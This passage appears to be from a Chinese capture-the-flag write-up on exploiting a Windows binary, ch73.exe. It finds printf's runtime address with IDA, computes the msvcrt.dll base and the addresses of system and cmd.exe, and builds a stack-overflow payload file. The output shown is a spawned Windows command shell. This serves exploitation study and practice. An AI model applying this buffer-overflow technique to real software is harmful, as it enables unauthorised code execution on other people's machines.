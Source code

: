 运行之后最后那一串就是printf的真实地址，因为是argv这种参数，所以接收地址不是很好接收，winpwn自动化没有输出（很奇怪），所以笔者就用动态调试exp来获得printf的真实地址，这里笔者用的ida调试的

```
PS ch73> .\ch73.exe p2
File name: p2
File size: 8228
Alphanumerical chars: 2054
Words: 1
Lines: 0
File pointer: 75E2D660
pV觰PW觰癢觰 Y觰PY觰€[觰File name: 兡[?垭壝岰?卲*@
```

在`401825`这里下个断点然后，在debug里面选择本地，找到程序后Parameters里面放入p2也就是argv，然后开始调试

![img](https://xzfile.aliyuncs.com/media/upload/picture/20221126193249-0ebc0dac-6d7e-1.png)

到断点那里，然后g搜索到`406200`这个地址，这个里面就存放的是printf的真实地址

![img](https://xzfile.aliyuncs.com/media/upload/picture/20221126193302-1666dffa-6d7e-1.png)

拿到printf真实的地址之后就需要算dll的base，在笔者的虚拟机里`msvcrt.dll`是在`C:\Windows\SyChpe32\msvcrt.dll`但是笔者在实机上测的时候这个程序的dll在 `C:\WINDOWS\SysWOW64\msvcrt.dll`这里

把dll文件拖到ida中，搜索printf在dll里面的偏移算出dll_base，还有system以及cmd.exe的偏移并算出真实地址

```
printf_addr = 0x75D35670

dll_base = printf_addr - 0x10105670
system_addr = dll_base + 0x10105A70

cmd_addr = dll_base + 0x1010D158
```

最后再构造getshell的payload如下

```
p1 = p32(0x75E2D660) * 2053
p1 += p32(0xdeadbeef)
p1 += p32(system_addr)
p1 += p32(0x004016E3)
p1 += p32(cmd_addr)

p1 = [ord(i) for i in p1]

with open('./p3', 'wb+') as f:
    f.write(bytes(p1))

f.close()
```

运行即可getshell

```
PS ch73> .\ch73.exe p3
File name: p3
File size: 8228
Alphanumerical chars: 2056
Words: 1
Lines: 0
File pointer: 75E2D660
Microsoft Windows [版本 10.0.22000.1219]
(c) Microsoft Corporation。保留所有权利。
```
